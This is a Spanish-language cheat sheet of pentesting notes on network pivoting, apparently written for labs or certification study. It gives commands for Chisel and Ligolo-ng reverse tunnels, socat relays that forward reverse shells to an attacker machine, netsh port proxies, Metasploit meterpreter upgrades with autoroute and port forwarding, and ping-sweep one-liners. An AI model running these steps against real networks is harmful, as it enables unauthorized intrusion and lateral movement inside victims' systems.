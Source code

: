 # Pivoting

Propietario: Adrian Gisbert Cabello

# Chisel

Aplicación para hacer portforwarding

- Tenemos que tener chisel descomprimido (Linux) en Kali: `gunzip chisel_1.X.X_linux_arm64.gz`
- Le cambiamos el nombre a chisel para que sea más claro: `mv chisel_1.X.X_linux_arm64 chisel`
- Le damos permisos de ejecución: `chmod +x chisel`
- Comando para ponernos a escucha en el puerto 33 (máquina Kali): `./chisel server --reverse -p 33`
- Comando para ponerse en modo cliente tunelizando todos los puertos: `./chisel client 192.168.146.128:1234 R:socks`
- Comando para ponerse en modo cliente tunelizando 1 puerto: `./chisel client 192.168.146.128:1234 R:80:10.10.0.128:80`

# Socat

La idea es ejecutar Socat en la máquina intermedia (10.10.10.13) y obtener una reverse shell desde la máquina 2 (20.20.20.12) hasta la máquina intermedia (10.10.10.13) y gracias a socat poder enviar esa reverse shell a nuestra máquina Kali (10.10.10.12)

Vamos a compartir el archivo socat a la máquina intermedia (10.10.10.13) de la misma manera que hemos hecho para compartir chisel:

- Compartimos chisel a la primera máquina (10.10.10.13) con un servidor python3 desde la máquina Kali: `python3 -m http.server 5000`
- Descargamos en la máquina 10.10.10.13 con curl o wget el archivo socat
- Le damos permisos de ejecución: `chmod +x socat`
- Ejecutamos socat en la máquina intermedia: `./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111`
    - Otro comando: `./socat TCP-LISTEN:1111,fork TCP:10.10.10.1:33`

- Esto significa que la reverse shell que reciba la máquina intermedia por el puerto 1111, lo va a enviar a nuestra máquina atacante (Kali) por el puerto 111
- Aconsejable hacerlo con los mismos números de cada máquina, si es la máquina 4: `./socat tcp-l:4444,fork,reuseaddr tcp:30.30.30.12:`444
- Nos tenemos que poner con netcat en nuestra máquina Kali y ponernos en escucha por el puerto 111: `nc -lvnp 111`

# Windows Netsh

**En el comando se configuran 4 parámetros, cada uno de ellos, sirve para lo siguiente:**

- **`listenport` –> Especificamos el puerto en el que Windows escuchará y que servirá como tunneling para la dirección y puerto que conectemos.**
- **`listenaddress` –> Especificamos la dirección de red en la que escuchará el puerto especificado en `listenport`. Esto indicará la interfaz en la que se escuchará.**
- **`connectport` –> Especificamos el puerto de la dirección a la que queremos llegar**
- **`connectaddress` –> Especificamos la dirección a la que queremos llegar**

```jsx
**netsh interface portproxy add v4tov4 listenport=<puerto a escuchar> listenaddress=<direccion a escuchar> connectport=<puerto a conectar> connectaddress=<direccion a conectar>**
```

Si ahora usamos el comando `netsh interface portproxy show all` podremos ver que se ha creado el túnel

Si quisiéramos eliminar/resetear la tabla de netsh (también se eliminan los registros), podríamos hacerlo con el siguiente comando: `netsh interface portproxy reset`

# Ligolo

Descargamos Ligolo-ng desde github: 

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

Necesitaremos dos archivos, el **agent** y el **proxy**

- Agent Windows x64: https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip
- Proxy Linux x64: https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz

Ahora tenemos que descomprimir el agente `7z x ligolo-agent.zip` y el proxy `tar -xvf ligolo-proxy.tar`, le damos permisos de ejecución al proxy `chmod +x proxy` y lo movemos al directiorio de binarios `sudo mv proxy /usr/bin`

Primero pondremos en marcha el proxy:

- `sudo ip tuntap add user kali mode tun ligolo`
- `sudo ip link set ligolo`
- Hacemos un `ifconfig` para ver que se haya creado la interfaz correctamente
- En la máquina Kali: `proxy -selfcert`
    - Nos dice que está escuchando en el puerto 11601 (por ejemplo)
- Compartimos el agente a la máquina víctima
- Ejecutamos el agente: `agent.exe -connect LHOST:LPORT -retry -ignore-cert`
    - `agent.exe -connect 172.16.40.5:11601 -retry -ignore-cert`
- Ahora en el server proxy nos aparecerá que se ha conectado un host, escribimos: `session`
- Escribimos el número de la sesión que se haya creado y presionamos enter
- Nos aseguramos de las redes escribiendo `ifconfig`
- Escribimos `start`
- En una nueva terminal escribimos: `sudo ip route add 10.10.1.0/24 dev ligolo`
    - La ip es el nuevo rango de IP’s que anteriormente no teníamos acceso
- Si ahora hacemos un `ip route` confirmamos que se haya creado la ruta
- Ya podemos hacer ping a la máquina que no teníamos visibilidad anteriormente

# Metasploit

Para mediante una reverse shell conectarse a través de metasploit y luego poder upgradear a una sesión meterpreter, primero nos ponemos en modo escucha en metasploit con `use multi/handler`, ponemos el LHOST y LPORT y le damos a `run`. Una vez estamos en escucha, activamos la reverse shell en la máquina víctima y ya tendremos una sesión normal.

Ahora podemos hacer 2 cosas para levear la sesión a una sesión meterpreter:

1. `sessions -u 1` (tenemos que cambiar el 1 por el número de la sesión que queramnos levear)

2. `use shell_to_meterpreter`, ponemos el LHOST, LPORT y la SESSION. (una vez rellenados los datos le damos a `run` y se nos creará una nueva sesión meterpreter)

Cuando estamos dentro de una máquina, para saber los adaptadores de red que tiene:		**`*ip a*`** (linux) 	|	`ifconfig` (linux)		|	**`*ipconfig*`** (windows)   | `arp -a` (win/linux)

Para listar servicios conectados con otra máquina: 	`ss -natup`

Para hacer un escaneo de redes IP, podemos usar nmap o si no funcionara un script:		**`*nmap -sn 192.168.X.X/24*`**

Script Linux Ping Sweep: `for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`

Scripts Windows Ping Sweep: `for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.`

Para añadir una ip a la tabla de rutas de nuestra máquina atacante y poder ver otros equipos en esas subredes podemos hacerlo de 3 maneras:

1. `use multi/manage/autoroute ----- show options ----- set SESSION X`

2. **`*run autoroute -s 192.168.X.0/24*`**	(aquí pondremos la nueva ip encontrada y su máscara de red, en este caso es /24 porque era 255.255.255.0)

3. Para añadir un segmento de red en meterpreter: `route add 192.168.X.0/24 2` (añadimos la ruta a la sesión 2)

Para visualizar la tabla de rutas: `route`

Para eliminar una ruta en la tabla de rutas: `route del 192.168.X.0/24 2` (borramos una ruta en la sesión 2)

Ya teniendo una shell en meterpreter (***shell***) en el caso de estar conectados a una víctima windows y si es linux no hace falta, podemos usar ***if/ip***config para ver los adaptadores de red que tiene la máquina, si tiene más de uno es que hay más máquinas que estan dentro de una subred.

Con el comando **`*arp -a*`**, vemos un mapa de todas las ip que está viendo la máquina víctima (podemos averiguar otras máquinas que esten en la subred).

Para comprobar la route_table tenemos que poner en ***background*** la sesión de meterpreter y cuando estemos en el msfconsole		→		**`*route print*`**

Para hacer escaneo de puertos en msfconsole:		**`*use auxiliary/scanner/portscan/tcp*`**		→		**`*show options*`**		→		**`*set rhost <ip del equipo en la subred>***`

→		**`*set ports 1-65000*`** (si queremos menos puertos y más rápido, p.ej: 1-1000)

Para hacer un port_forwarding en meterpreter:		**`*portfwd add -l 2233 -p 445 -r 192.168.224.X*`**		(significa que por nuestro puerto 2233 de la máquina atacante, veremos el puerto 445 de la máquina víctima

Para listar los puertos que hemos hecho port_forwarding:		**`*portfwd list*`**

Ahora podemos hacer un escaneo en nmap desde el terminal al puerto que hemos añadido:		**`*nmap -p2233 localhost*`**	o 	un escaneo más exaustivo	**`*nmap -sSCV -p2233 localhost*`**

[Little Pivoting Example](Pivoting/Little%20Pivoting%20Example.md)

